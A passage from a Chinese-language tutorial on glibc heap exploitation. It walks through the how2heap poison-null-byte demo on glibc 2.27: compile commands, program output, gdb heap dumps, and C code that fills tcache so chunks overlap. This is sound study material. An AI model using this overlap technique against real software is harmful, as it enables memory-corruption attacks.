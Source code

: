 编译，运行，不能攻击成功：
\begin{verbatim}
root in ~/how2heap-g227 at iZwz9eo57jnmoquu8r2fg0Z took 7s 
$ gcc -g3 -L/root/tmpwork/g227/lib -Wl,--rpath=/root/tmpwork/g227/lib -Wl,--dynamic-linker=/root/tmpwork/g227/lib/ld-linux-x86-64.so.2 poison_null_byte.c -o poison_null_byte

root in ~/how2heap-g227 at iZwz9eo57jnmoquu8r2fg0Z 
$ ./poison_null_byte         
We allocate 0x10 bytes for 'a': 0x1149260
'real' size of 'a': 0x18
b: 0x1149280
c: 0x1149390
b.size: 0x111 ((0x100 + 0x10) | prev_in_use)

After free(b), c.prev_size: 0
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

Pass the check: chunksize(P) == 0x100 == 0x100 == prev_size (next_chunk(P))
We malloc 'b1': 0x1149420
c.prev_size: 0
fake c.prev_size: 0x100

We malloc 'b2', our 'victim' chunk: 0x11494b0
Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2': 0x1149500

b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
New b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
\end{verbatim}

我们在gdb中调试，在\verb+ free(b)+这条命令下断点，查看当前的堆分布：
\begin{verbatim}
gef> p b
$1 = (uint8_t *) 0x603280 ""

gef> vmmap heap
Start              End                Offset             Perm Path
0x0000000000603000 0x0000000000624000 0x0000000000000000 rw- [heap]

gef> x/30gx 0x0000000000603000+0x10                   <-- heap base
0x603010:   0x0000000000000000  0x0100000000000000    <-- tcache_1
0x603020:   0x0000000000000000  0x0000000000000000
...         ...                 ...
0x6030b0:   0x0000000000000000  0x0000000000000000
0x6030c0:   0x0000000000000000  0x0000000000603280    <-- address of b
\end{verbatim}

可以很明显的看到，glibc为了效率，没有将\verb+ free+后的b放置在\verb+  unsorted_bins+中。和之前的处理方式一样，我们只需要在\verb+ free+和\verb+ malloc+前后分别填满和置空tcache就可以了：
\begin{verbatim}
    // deal with tcache, line 38
    int *k[10], i;
    for (i = 0; i < 7; i++) {
        k[i] = malloc(0x100);
    }
    for (i = 0; i < 7; i++) {
        free(k[i]);
    }
    free(b);
    
    // deal with tcache
    for (i = 0; i < 7; i++) {
        k[i] = malloc(0x80);
    }
    for (i = 0; i < 7; i++) {
        free(k[i]);
    }
    free(b1);
\end{verbatim}

